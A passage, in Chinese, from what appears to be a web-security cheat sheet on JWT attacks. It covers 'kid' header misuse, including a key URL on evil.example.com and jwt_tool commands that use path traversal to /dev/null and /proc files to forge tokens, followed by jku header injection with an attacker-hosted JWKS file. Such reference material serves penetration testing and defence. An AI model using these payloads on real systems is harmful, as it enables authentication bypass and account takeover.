 ```js
// HS256示例
HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload),
  your-256-bit-secret-from-secret.key
)
```



文档：
常见误用kid头的方式：

* 获取关键内容以更改有效载荷

* 更改密钥路径以强制使用自己的密钥

  ```py
  >>> jwt.encode(
  ...     {"some": "payload"},
  ...     "secret",
  ...     algorithm="HS256",
  ...     headers={"kid": "[http://evil.example.com/custom.key}"],
  ... )
  ```

* 将密钥路径更改为具有可预测内容的文件。

  ```ps1
  python3 jwt_tool.py <JWT> -I -hc kid -hv "../../dev/null" -S hs256 -p ""
  python3 jwt_tool.py <JWT> -I -hc kid -hv "/proc/sys/kernel/randomize_va_space" -S hs256 -p "2"
  ```

* 修改kid头以尝试SQL和命令注入


### JWKS - jku头注入

"jku"头的值指向JWKS文件的URL。通过将"jku" URL替换为攻击者控制的包含公钥的URL，攻击者可以使用配对的私钥对令牌进行签名，并让服务检索恶意公钥并验证令牌。

它有时通过标准端点公开暴露：

* `/jwks.json`
* `/.well-known/jwks.json`
* `/openid/connect/jwks.json`
* `/api/keys`
* `/api/v1/keys`
* [`/{tenant}/oauth2/v1/certs`](https://docs.theidentityhub.com/doc/Protocol-Endpoints/OpenID-Connect/OpenID-Connect-JWKS-Endpoint.html)

您应该为此次攻击创建自己的密钥对并托管它。它应该如下所示：

```json
{
"keys": [
    {
        "kid": "beaefa6f-8a50-42b9-805a-0ab63c3acc54",
        "kty": "RSA",
        "e": "AQAB",
        "n": "nJB2vtCIXwO8DN[...]lu91RySUTn0wqzBAm-aQ"
    }
  ]
}
```
